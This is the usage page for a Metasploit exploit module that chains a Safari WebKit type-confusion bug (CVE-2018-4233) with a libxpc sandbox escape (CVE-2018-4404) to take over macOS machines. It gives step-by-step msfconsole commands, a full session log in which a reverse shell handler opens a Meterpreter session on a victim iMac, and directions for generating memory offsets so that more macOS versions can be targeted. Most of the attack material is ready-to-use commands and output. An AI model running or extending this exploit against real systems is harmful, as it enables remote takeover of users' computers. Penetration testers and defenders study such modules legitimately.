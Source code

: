 ## Vulnerable Application

This module exploits a type confusion bug in the Javascript Proxy object in
WebKit. Safari on OSX 10.13.3 and lower are affected. The JS Proxy object
was introduced in Safari 10, so OSX 10.11 is not affected by the type
confusion, however the sandbox escape may still work.

The DFG JIT does not take into account that, through the use of a Proxy,
it is possible to run arbitrary JS code during the execution of a CreateThis
operation. This makes it possible to change the structure of e.g. an argument
without causing a bailout, leading to a type confusion (CVE-2018-4233).

The JIT region is then replaced with shellcode which loads the second stage.
The second stage exploits a logic error in libxpc, which uses command execution
via the launchd's "spawn_via_launchd" API (CVE-2018-4404).

## Verification Steps

1. Start `msfconsole`
1. `use exploit/osx/browser/safari_proxy_object_type_confusion`
1. `set LHOST <tab>`
1. `exploit`
1. Visit the URL on a vulnerable version of Safari

## Scenarios

### High Sierra 10.13

```
msf5 > use exploit/osx/browser/safari_proxy_object_type_confusion
msf5 exploit(osx/browser/safari_proxy_object_type_confusion) > set LHOST 192.168.0.2
LHOST => 192.168.0.2
msf5 exploit(osx/browser/safari_proxy_object_type_confusion) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(osx/browser/safari_proxy_object_type_confusion) >
[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Using URL: http://0.0.0.0:8080/0PiuTy
[*] Local IP: http://192.168.0.2:8080/0PiuTy
[*] Server started.

msf5 exploit(osx/browser/safari_proxy_object_type_confusion) >
[*] 192.168.0.2   safari_proxy_object_type_confusion - Request from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13) AppleWebKit/604.1.38 (KHTML, like Gecko) Version/11.0 Safari/604.1.38
[*] Sending stage (53508 bytes) to 192.168.0.2
[*] Meterpreter session 1 opened (192.168.0.2:4444 -> 192.168.0.2:33200) at 2018-11-20 16:28:59 +0800

msf5 exploit(osx/browser/safari_proxy_object_type_confusion) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : Users-iMac.local
OS           : Darwin 17.0.0 Darwin Kernel Version 17.0.0: Thu Aug 24 21:48:19 PDT 2017; root:xnu-4570.1.46~2/RELEASE_X86_64
Architecture : x64
Meterpreter  : python/osx
```

### Adding offsets for new versions

Although all macOS versions from 10.12 -> 10.13.3 are vulnerable, some versions
are not supported. It's easy to add support for a vulnerable version by running
the script `external/source/exploits/CVE-2018-4404/gen_offsets.rb` on the
target version.

You will need to install the latest radare2 for the script to function.

```
$ git clone https://github.com/radare/radare2 && cd radare2 && ./sys/install.sh && cd ..`
$ ruby external/source/exploits/CVE-2018-4404/gen_offsets.rb
const DYLD_STUB_LOADER_OFFSET = 0x000012a8;
const DLOPEN_OFFSET = 0x00002e60;
const CONFSTR_OFFSET = 0x000024fc;
const STRLEN_OFFSET = 0x00001440;
const STRLEN_GOT_OFFSET = 0xee8;
```

You can then add the offsets to the module:
`modules/exploits/osx/browser/safari_proxy_object_type_confusion.rb`

Please don't forget to contribute the offsets back to the framework if you have
successfully tested them.

